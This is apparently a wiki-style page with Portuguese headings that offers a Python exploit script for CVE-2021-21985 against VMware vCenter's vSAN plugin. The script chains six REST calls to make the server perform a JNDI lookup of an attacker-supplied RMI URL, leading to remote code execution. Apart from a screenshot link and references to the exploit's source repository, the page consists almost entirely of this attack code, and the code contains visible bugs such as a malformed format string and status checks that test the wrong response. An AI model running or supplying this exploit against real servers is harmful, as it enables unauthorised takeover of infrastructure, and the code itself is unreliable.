 <languages   />

Captura de tela
---------------

![](Twitter_E3CB24AUUAEl1_8.jpg "Twitter_E3CB24AUUAEl1_8.jpg")

EXP
---

    import requests
    import sys
    import json
    def send_request(host,uri,json):
        try:
            req = requests.post(url=host+baseuri+uri,json=json,headers=headers,verify=False)
            return req.text
        except:
            return False
    def check_false(request):
        if request ==False or 'result' not in request:
            print("[*] No Vuln!")
            return True
    if __name__ == '__main__':
        if len(sys.argv) < 2:
            print('''python3 cve-2021-21985.py https://host rmi://8.8.8.8:1099/Exploit''')
            sys.exit()
        host = sys.argv[1]
        payload = sys.argv[2]
        baseuri = "ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService"
        uris = ["/setTargetObject", "/setStaticMethod", "/setTargetMethod", "/setArguments", "/prepare", "/invoke"]
        headers = {'Content-Type': 'application/json', "User-Agent": "pentest"}
        stage_setTargetObject = json.loads('{"methodInput":[null]}')
        stage_setStaticMethod = json.loads('{"methodInput":["javax.naming.InitialContext.doLookup"]}')
        stage_setTargetMethod = json.loads('{"methodInput":["doLookup"]}')
        stage_setArguments = json.loads('{"methodInput":[["%s"|"%s"]]}'%payload)
        stage_prepare = json.loads('{"methodInput":[]}')
        print("[*] start init TargetObject")
        # init TargetObject
        init_request  = send_request(host,uris[0],json=stage_setTargetObject)
        if check_false(init_request):
            print("[*] init failed!")
            exit()
        # Step2 setStaticMethod
        StaticMethod = send_request(host,uris[1],json=stage_setStaticMethod)
        if check_false(init_request):
            print("[*] StaticMethod init failed!")
            exit()
        # Step3 setTargetMethod
        StaticMethod = send_request(host,uris[2],json=stage_setTargetMethod)
        if check_false(init_request):
            print("[*] setTarget Method failed!")
            exit()
        # Step4 setArguments
        # print(stage_setArguments)
        setArguments = send_request(host,uris[3],json=stage_setArguments)
        if check_false(init_request):
            print("[*] setArguments failstage_setArgumentsed!")
            exit()
        # Step5 prepare
        setArguments = send_request(host,uris[4],json=stage_prepare)
        if check_false(init_request):
            print("[*] stage_prepare failed!")
            exit()
        # Step6 invoke
        setArguments = send_request(host,uris[5],json=stage_prepare)
        if check_false(init_request):
            print("[*] invoke failed!")
            exit()

Referência
----------

<https://github.com/xnianq/cve-2021-21985_exp/>

<https://twitter.com/_0xf4n9x_?s=21>